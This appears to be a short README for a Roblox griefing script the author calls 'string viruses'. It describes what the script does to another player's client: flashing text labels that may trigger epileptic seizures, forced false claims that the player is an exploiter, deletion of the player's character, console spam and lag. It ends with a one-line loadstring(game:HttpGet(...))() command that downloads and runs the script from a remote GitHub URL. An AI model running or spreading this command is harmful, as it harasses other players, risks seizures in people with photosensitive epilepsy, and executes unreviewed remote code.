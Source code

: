 DON'T EXECUTE THIS SCRIPT IF YOU DON'T NOW WHAT YOU ARE DOING
THIS SCRIPT DOES NOT HAVE ANY IP LOGGER OR HARDWARE ID LOGGER!
what this script do?

i named the script "string viruses" this script put some textlabels with string text on the client screen
and make him say they are a Exploiter
maybe it causes a few epileptic attacks but nothing major!
remove the Character of the client and his topbarapp to stop any move
It also prints the word "string" many times in the Roblox console
a bit of lag and sorry if my english is so bad

If you know what you are doing then heres the script:
loadstring(game:HttpGet("https://raw.githubusercontent.com/LikeDynamite1/skiddestroyer/main/source.lua"))()

